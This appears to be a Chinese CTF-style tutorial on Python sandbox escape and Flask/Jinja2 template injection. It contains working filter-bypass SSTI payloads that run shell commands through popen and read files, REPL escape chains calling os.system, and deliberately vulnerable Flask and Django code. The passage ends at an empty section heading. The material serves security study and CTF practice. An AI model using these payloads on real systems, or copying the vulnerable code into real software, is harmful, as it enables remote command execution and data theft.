----------1-----------(40, 'file')----------2-----------(59, <class 'warnings.WarningMessage'>, 'linecache', ['os', 'sys', '__builtins__'])(59, <class 'warnings.WarningMessage'>, '__builtins__', None)(59, <class 'warnings.WarningMessage'>, 'sys', None)(59, <class 'warnings.WarningMessage'>, 'types', ['__builtins__'])(60, <class 'warnings.catch_warnings'>, 'linecache', ['os', 'sys', '__builtins__'])(60, <class 'warnings.catch_warnings'>, '__builtins__', None)(60, <class 'warnings.catch_warnings'>, 'sys', None)(60, <class 'warnings.catch_warnings'>, 'types', ['__builtins__'])(61, <class '_weakrefset._IterationGuard'>, '__builtins__', None)(62, <class '_weakrefset.WeakSet'>, '__builtins__', None)(72, <class 'site._Printer'>, '__builtins__', None)(72, <class 'site._Printer'>, 'traceback', ['sys', '__builtins__'])(72, <class 'site._Printer'>, 'os', ['sys', '__builtins__', 'open'])(72, <class 'site._Printer'>, 'sys', None)(77, <class 'site.Quitter'>, '__builtins__', None)(77, <class 'site.Quitter'>, 'traceback', ['sys', '__builtins__'])(77, <class 'site.Quitter'>, 'os', ['sys', '__builtins__', 'open'])(77, <class 'site.Quitter'>, 'sys', None)(78, <class 'codecs.IncrementalEncoder'>, '__builtins__', None)(78, <class 'codecs.IncrementalEncoder'>, 'sys', None)(78, <class 'codecs.IncrementalEncoder'>, 'open', None)(79, <class 'codecs.IncrementalDecoder'>, '__builtins__', None)(79, <class 'codecs.IncrementalDecoder'>, 'sys', None)(79, <class 'codecs.IncrementalDecoder'>, 'open', None)----------3-----------(59, 13, <class 'warnings.WarningMessage'>, '__import__')(59, 13, <class 'warnings.WarningMessage'>, 'file')(59, 13, <class 'warnings.WarningMessage'>, 'compile')(59, 13, <class 'warnings.WarningMessage'>, 'eval')(59, 13, <class 'warnings.WarningMessage'>, 'open')(59, 13, <class 'warnings.WarningMessage'>, 'execfile')(60, 13, <class 'warnings.catch_warnings'>, '__import__')(60, 13, <class 'warnings.catch_warnings'>, 'file')(60, 13, <class 'warnings.catch_warnings'>, 'compile')(60, 13, <class 'warnings.catch_warnings'>, 'eval')(60, 13, <class 'warnings.catch_warnings'>, 'open')(60, 13, <class 'warnings.catch_warnings'>, 'execfile')(61, 1, <class '_weakrefset._IterationGuard'>, '__import__')(61, 1, <class '_weakrefset._IterationGuard'>, 'file')(61, 1, <class '_weakrefset._IterationGuard'>, 'compile')(61, 1, <class '_weakrefset._IterationGuard'>, 'eval')(61, 1, <class '_weakrefset._IterationGuard'>, 'open')(61, 1, <class '_weakrefset._IterationGuard'>, 'execfile')(62, 1, <class '_weakrefset.WeakSet'>, '__import__')(62, 1, <class '_weakrefset.WeakSet'>, 'file')(62, 1, <class '_weakrefset.WeakSet'>, 'compile')(62, 1, <class '_weakrefset.WeakSet'>, 'eval')(62, 1, <class '_weakrefset.WeakSet'>, 'open')(62, 1, <class '_weakrefset.WeakSet'>, 'execfile')(72, 20, <class 'site._Printer'>, 'file')(72, 20, <class 'site._Printer'>, 'exec')(72, 23, <class 'site._Printer'>, '__import__')(72, 23, <class 'site._Printer'>, 'file')(72, 23, <class 'site._Printer'>, 'compile')(72, 23, <class 'site._Printer'>, 'eval')(72, 23, <class 'site._Printer'>, 'open')(72, 23, <class 'site._Printer'>, 'execfile')(77, 20, <class 'site.Quitter'>, 'file')(77, 20, <class 'site.Quitter'>, 'exec')(77, 23, <class 'site.Quitter'>, '__import__')(77, 23, <class 'site.Quitter'>, 'file')(77, 23, <class 'site.Quitter'>, 'compile')(77, 23, <class 'site.Quitter'>, 'eval')(77, 23, <class 'site.Quitter'>, 'open')(77, 23, <class 'site.Quitter'>, 'execfile')(78, 21, <class 'codecs.IncrementalEncoder'>, 'open')(78, 23, <class 'codecs.IncrementalEncoder'>, '__import__')(78, 23, <class 'codecs.IncrementalEncoder'>, 'file')(78, 23, <class 'codecs.IncrementalEncoder'>, 'compile')(78, 23, <class 'codecs.IncrementalEncoder'>, 'eval')(78, 23, <class 'codecs.IncrementalEncoder'>, 'open')(78, 23, <class 'codecs.IncrementalEncoder'>, 'execfile')(79, 21, <class 'codecs.IncrementalDecoder'>, 'open')(79, 23, <class 'codecs.IncrementalDecoder'>, '__import__')(79, 23, <class 'codecs.IncrementalDecoder'>, 'file')(79, 23, <class 'codecs.IncrementalDecoder'>, 'compile')(79, 23, <class 'codecs.IncrementalDecoder'>, 'eval')(79, 23, <class 'codecs.IncrementalDecoder'>, 'open')(79, 23, <class 'codecs.IncrementalDecoder'>, 'execfile')----------4-----------(60, '__import__')(60, 'file')(60, 'repr')(60, 'compile')(60, 'eval')(60, 'open')(60, 'execfile')
```

进一步获取可以直接执行命令或者读取文件的类

```none
----------1-----------                                                                (40, 'file')                                                                          ----------2-----------                                                                (59, <class 'warnings.WarningMessage'>, 'linecache', ['os', 'sys', '__builtins__'])   (59, <class 'warnings.WarningMessage'>, 'types', ['__builtins__'])                    (60, <class 'warnings.catch_warnings'>, 'linecache', ['os', 'sys', '__builtins__'])   (60, <class 'warnings.catch_warnings'>, 'types', ['__builtins__'])                    (72, <class 'site._Printer'>, 'traceback', ['sys', '__builtins__'])                   (72, <class 'site._Printer'>, 'os', ['sys', '__builtins__', 'open'])                  (77, <class 'site.Quitter'>, 'traceback', ['sys', '__builtins__'])                    (77, <class 'site.Quitter'>, 'os', ['sys', '__builtins__', 'open'])                   (78, <class 'codecs.IncrementalEncoder'>, 'open', None)                               (79, <class 'codecs.IncrementalDecoder'>, 'open', None)                               ----------3-----------                                                                (59, 13, <class 'warnings.WarningMessage'>, 'file')                                   (59, 13, <class 'warnings.WarningMessage'>, 'eval')                                   (59, 13, <class 'warnings.WarningMessage'>, 'open')                                   (59, 13, <class 'warnings.WarningMessage'>, 'execfile')                               (60, 13, <class 'warnings.catch_warnings'>, 'file')                                   (60, 13, <class 'warnings.catch_warnings'>, 'eval')                                   (60, 13, <class 'warnings.catch_warnings'>, 'open')                                   (60, 13, <class 'warnings.catch_warnings'>, 'execfile')                               (61, 1, <class '_weakrefset._IterationGuard'>, 'file')                                (61, 1, <class '_weakrefset._IterationGuard'>, 'eval')                                (61, 1, <class '_weakrefset._IterationGuard'>, 'open')                                (61, 1, <class '_weakrefset._IterationGuard'>, 'execfile')                            (62, 1, <class '_weakrefset.WeakSet'>, 'file')                                        (62, 1, <class '_weakrefset.WeakSet'>, 'eval')                                        (62, 1, <class '_weakrefset.WeakSet'>, 'open')                                        (62, 1, <class '_weakrefset.WeakSet'>, 'execfile')                                    (72, 20, <class 'site._Printer'>, 'file')                                             (72, 20, <class 'site._Printer'>, 'exec')                                             (72, 23, <class 'site._Printer'>, 'file')                                             (72, 23, <class 'site._Printer'>, 'eval')                                             (72, 23, <class 'site._Printer'>, 'open')                                             (72, 23, <class 'site._Printer'>, 'execfile')                                         (77, 20, <class 'site.Quitter'>, 'file')                                              (77, 20, <class 'site.Quitter'>, 'exec')                                              (77, 23, <class 'site.Quitter'>, 'file')                                              (77, 23, <class 'site.Quitter'>, 'eval')                                              (77, 23, <class 'site.Quitter'>, 'open')                                              (77, 23, <class 'site.Quitter'>, 'execfile')                                          (78, 21, <class 'codecs.IncrementalEncoder'>, 'open')                                 (78, 23, <class 'codecs.IncrementalEncoder'>, 'file')                                 (78, 23, <class 'codecs.IncrementalEncoder'>, 'eval')                                 (78, 23, <class 'codecs.IncrementalEncoder'>, 'open')                                 (78, 23, <class 'codecs.IncrementalEncoder'>, 'execfile')                             (79, 21, <class 'codecs.IncrementalDecoder'>, 'open')                                 (79, 23, <class 'codecs.IncrementalDecoder'>, 'file')                                 (79, 23, <class 'codecs.IncrementalDecoder'>, 'eval')                                 (79, 23, <class 'codecs.IncrementalDecoder'>, 'open')                                 (79, 23, <class 'codecs.IncrementalDecoder'>, 'execfile')                             ----------4-----------                                                                (60, 'file')                                                                          (60, 'repr')                                                                          (60, 'eval')                                                                          (60, 'open')                                                                          (60, 'execfile')                                                                      
```

选取其中一个执行命令，`__mro__`输出父类，最后一个父类为object

```none
>>> ().__class__.__mro__[-1].__subclasses__()[72]<class 'site._Printer'>>>> ().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['os'].system('whoami')misaki\user
```

读取文件

```none
>>> ().__class__.__mro__[-1].__subclasses__()[72].__init__.__globals__['__builtins__']['file']("C:\\windows\\win.ini").read()'; for 16-bit app support\n[fonts]\n[extensions]\n[mciextensions]\n[files]\n[Mail]\nMAPI=1\nCMCDLLNAME32=mapi32.dll\nCMC=1\nMAPIX=1\nMAPIXVER=1.0.0.1\nOLEMessagin
```

其中还可以执行的模块还有很多，比如使用含有`__builtins__`的其他模块，来调用加载的os等。

筛选代码来源：[Python沙箱逃逸总结](https://hatboy.github.io/2018/04/19/Python沙箱逃逸总结/#遍历找到其他的逃逸方法)

## SSTI

服务器端模板注入。既然谈到SSTI，在python中就要提一下flask，jinja2模板。此处利用网上一段代码

```none
from flask import Flaskfrom flask import request, render_template_string, render_templateapp = Flask(__name__)@app.route('/login')def hello_ssti():    person = {        'name': 'hello',        'secret': 'This_is_my_secret'    }    if request.args.get('name'):        person['name'] = request.args.get('name')    template = '<h2>Hello %s!</h2>' % person['name']    return render_template_string(template, person=person)    if __name__ == "__main__":    app.run(debug=True)
```

当如下请求的时候就会显示其他参数，比如secret

```none
http://127.0.0.1:5000/login?name={{person[%27secret%27]}}
```

其中的`render_template_string`和另一个模板函数`render_template`区别在第一个参数是否可以传入字符串，但是传入字符串就一定会有问题吗？修改template参数

```none
from flask import Flaskfrom flask import request, render_template_stringapp = Flask(__name__)@app.route('/login')def hello_ssti():    person = {        'name': 'hello',        'secret': 'This_is_my_secret'    }    if request.args.get('name'):        person['name'] = request.args.get('name')    template = '<h2>Hello {{person.name }}!</h2>'    return render_template_string(template, person=person)    if __name__ == "__main__":    app.run(debug=True)
```

做如下请求的时候，就会显示`Hello {{person['secret']}}!`，我们传入的参数被当作字符串显示出来。

```none
http://127.0.0.1:5000/login?name={{person[%27secret%27]}}
```

name参数传入后，先修改person中的name值，person变成

```none
person = {        'name': '{{person['secret']}}',        'secret': 'This_is_my_secret'    }
```

后面调用模板，来执行的时候，根据变量取值，又把`person.name`获取出来，传入`render_template_string`的就是`'<h2>Hello {{person.name}}!</h2>'`，取值后整体被当作字符串显示。这里跟上面格式化字符串的时候不一样的地方就出来了，当我们直接传入`{{person['secret']}}`的时候，调用模板变量取值的时候，先格式化字符串，把传入字符串当作变量来处理。也就是`'<h2>Hello {{person['secret']}}!</h2>'`加载到`render_template_string`。这又涉及到python的字符串格式化。

### 字符串格式化

在python中常见的字符串格式化有几种形式

#### %操作符

```none
>>> name = "aaa">>> '%s' %name'aaa'
```

#### string.Template

```none
>>> from string import Template>>> name = 'aaa'>>> tem = Template('$name')>>> tem.substitute(name=name)'aaa'
```

#### format

python2.6后引用的格式化字符串的函数

```none
>>> name = 'aaa'>>> '{}'.format(name)'aaa'
```

#### f-Strings

python3.6后新增的字符串格式化方式，可以执行其中的python语句。

```none
>>> name = 'aaa'>>> f'{name}''aaa'>>> f'{name.upper()}''AAA'
```

如何利用字符串格式化来读取敏感文件

```none
def view(request, *args, **kwargs):    template = 'Hello {user}, This is your email: ' + request.GET.get('email')    return HttpResponse(template.format(user=request.user))
```

如果控制了email参数就是控制了字符串格式化一部分，当传入`{user.password}`的时候就会显示用户的哈希密码。`user`是当前上下文中仅有的一个变量，也就是format函数传入的`user=request.user`，Django中`request.user`是当前用户对象，这个对象包含一个属性`password`，也就是该用户的密码。所以，`{user.password}`实际上就是输出了`request.user.password`。

以上代码：[Python格式化字符串漏洞](https://xz.aliyun.com/t/288)，[一文掌握CTF中Python全部考点](https://mp.weixin.qq.com/s/Lj4nCz0hag-AKQF_s79fQw)

### CTF 利用

下面用几个CTF题来感受一下。

#### flask 真香

[https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/flask%E7%9C%9F%E9%A6%99](https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/flask真香)

不过这个环境现在搭建会有点问题，flask会使用的是最新1.1.2版本，显示的request.url会先url编码再显示到页面上，需要更改flask版本。

修改Dockerfile文件:

```none
RUN pip3 install flask==0.12.1RUN pip3 install MarkupSafe==1.0RUN pip3 install jinja2==2.9 RUN pip3 install Werkzeug==0.14.1
```

启动后就能愉快的看到页面了



禁用了不少关键词，然后使用的session对象来解决，就直接利用上手

在查找子父类的函数上，`__mro__`被禁用了，但是`__bases__`并没有。先找到object类



然后再去获取子类，由于class被禁用，`__subclasses__`不能直接使用。



其中可以利用的有open和popen，open在`__builtins__`里面



执行命令查找文件



读取文件即可



使用open，但是需要知道文件位置



如果不想用session，或者session也不能用了，就需要更多的绕过方式，下面会提到这种。

```none
{{(((()|attr(("_"*2,"cla","ss","_"*2)|join)|attr(("_"*2,"bases","_"*2)|join))[0]|attr(("_"*2,"subcla","sses","_"*2)|join)())[102]|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get('pop'+'en')('cat%20/Th1s__is_S3cret').read()}}
```



#### flask plus

[[https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/Flask%20PLUS\]](https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/Flask PLUS])(https://github.com/NJUPT-coding-gay/NCTF2018/tree/master/Web/Flask PLUS)

同样的页面，说明应该是增加了过滤的东西，同样修改Dockerfile文件。

使用上一个POC，发现`__init__`被过滤了。至少到这一步是正常的



然后只需要把`__init__`做拼接就行了



如果某种情况下不能拼接，或者不想去这么做，也可以去查是否有替代属性。要求能替代`__init__`，要有`__globals__`属性。也就是重载过`__init__`

```none
import osfor i in dir(os._wrap_close):    if '__globals__' in dir(eval('os._wrap_close.'+i)):        print(i)
```

大概符合标准的有

```none
__enter__   __exit__    __getattr__ __init__    __iter__    close       
```

使用`__enter__`



使用`__getattr__ `，不过这个被禁用了。需要拼接，这就跟上面`__init__`类似了。更换`__iter__`


`close`也被禁用了。`__exit__`还可以使用



#### flask 改

如果在过滤中只过滤了特殊符号，比如`__`这种，代码

```python
#!/usr/bin/env python# -*- coding: utf-8 -*-from flask import Flask,render_template,render_template_string,redirect,request,session,abort,send_from_directoryimport osapp = Flask(__name__)@app.route("/")def index():    "主页"    return render_template("index2.html")    @app.route('/user')def user():    def safe_jinja(s):        blacklist = ['__class__','__init__','__']        flag = True        for no in blacklist:            if no.lower() in s.lower():               flag= False               break        return flag    template = '''{%% block body %%}    <div class="center-content error">        <h3>%s</h3>    </div> {%% endblock %%}''' % (request.url)            if safe_jinja(request.args.get('name')):        return render_template_string(template)    else:        return render_template_string("<h2>NO!</h2>")        if __name__ == "__main__":    app.run(host='0.0.0.0',port=5000)
```

如果是上面这种对参数过滤的形式，`request.args.param`来获取新参数的值



如果是把`[]`也过滤掉，就需要用jinja2模板函数来处理，比如`attr()`



构造请求



现在可以看到上面过滤掉了`__class__`，这种也可以采用



如何利用这种过滤来获取flag，其中由于中括号被禁用，利用列表的pop方法。但是元组没有pop方法，所以需要先转换成list，再去调用，字典可以使用get()获取键值。原flag文件名带双下划线改成单下划线了。如果其中的某个字符串关键词，比如`class`被禁用，直接拼接来绕过就行。

```none
{{(((request|attr(("_"*2,"class","_"*2)|join)|attr(("_"*2,"mro","_"*2)|join)|list).pop(-1)|attr(("_"*2,"subclasses","_"*2)|join)()).pop(258)|attr(("_"*2,"init","_"*2)|join)|attr(("_"*2,"globals","_"*2)|join)).get(("_"*2,"builtins","_"*2)|join).get('open')('Th1s_is_F1114g').read()}}
```



原代码中是过滤掉`join`的，所以这里也可以使用`format`来处理



完整的利用就是

```none
{{(((request|attr(request.args.f|format(request.args.a))|attr(request.args.f|format(request.args.b))|list).pop(-1)|attr(request.args.f|format(request.args.c))()).pop(118)|attr(request.args.f|format(request.args.d))|attr(request.args.f|format(request.args.e))).get('popen')('cat%20Th1s_is_F1114g').read()}}&f=%s&a=__class__&b=__mro__&c=__subclasses__&d=__init__&e=__globals__
```



再如果觉得其他参数中这种形式会被禁用，也可以更多参数分化执行。`request.args`也可以改为`request.values`。

```none
{{(((request|attr(request.args.f|format(request.args.h,request.args.h,request.args.a,request.args.h,request.args.h))|attr(request.args.f|format(request.args.h,request.args.h,request.args.b,request.args.h,request.args.h))|list).pop(-1)|attr(request.args.f|format(request.args.h,request.args.h,request.args.c,request.args.h,request.args.h))()).pop(118)|attr(request.args.f|format(request.args.h,request.args.h,request.args.d,request.args.h,request.args.h))|attr(request.args.f|format(request.args.h,request.args.h,request.args.e,request.args.h,request.args.h))).get('popen')('cat%20Th1s_is_F1114g').read()}}&f=%s%s%s%s%s&h=_&a=class&b=mro&c=subclasses&d=init&e=globals 
```



#### flask 魔改

